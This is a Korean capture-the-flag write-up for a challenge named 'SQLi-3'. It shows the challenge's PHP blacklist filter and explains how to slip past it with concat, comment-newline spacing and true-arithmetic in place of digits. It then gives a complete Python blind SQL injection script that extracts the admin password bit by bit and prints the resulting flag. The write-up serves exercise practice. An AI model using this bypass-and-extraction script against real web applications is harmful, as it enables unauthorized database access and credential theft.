

## SQLi-3

```php
if(preg_match("/or|union|admin|\\||\\&|\\d|-|\\\\|\\x09|\\x0b|\\x0c|\\x0d|\\x20|\\//",$t)) die('no hack..');
```

여전히 필터링이 존재한다. 따라서 concat구문을 이용해 userid를 admin으로 읽게하고 공백을 %23%0A로 치환하는 과정을 거쳐야한다. 또한 모든 숫자를 막기 때문에 sql의 true false 연산의 특성을 이용하여 우회하여야 한다. flag를 얻기 위해서는 userid=admin일 때 userpw의 n번째 글자를 하나 받아서 16진수로 바꾸고 이를 2진수로 표시하게 한 후 lpad를 이용해 8자리로 고정시킨다. 이 후 xseq번째가 1인지 여부를 확인하고 이를 이용해 얻은 값을 다시 원래대로 바구는 과정을 거쳐야 한다.

```python
import requests

base = "http://edu.arang.kr:9203/index.php"
s = requests.session()

flag = ""
for i in range(100):
    seq = '+'.join(['true'] * (i + 1))

    bits = ""
    for x in range(8):
        xseq = '+'.join(['true'] * (x + 1))
        payload = f"a'='a' and userid=concat('ad','min') and substr(lpad(conv(hex(substr(userpw,{seq},true)),pow(true+true,true+true+true+true),true+true),pow(true+true,true+true+true),false),{xseq},true)=true".replace(' ', '%23%0a').replace('+', '%2b')
	
        r = s.get(f"{base}?userid={payload}%23&userpw=a")
        bits += "1" if "Hello admin" in r.text else "0"

    if bits == "00000000":
        break
    flag += chr(int(bits, 2))
    print(f"FLAG = {flag}")

print(f"\nFLAG = {flag}")
```



python을 실행하게 되면 플래그를 획득 할 수 있다. flag{c8d56212687cc5f582d4}
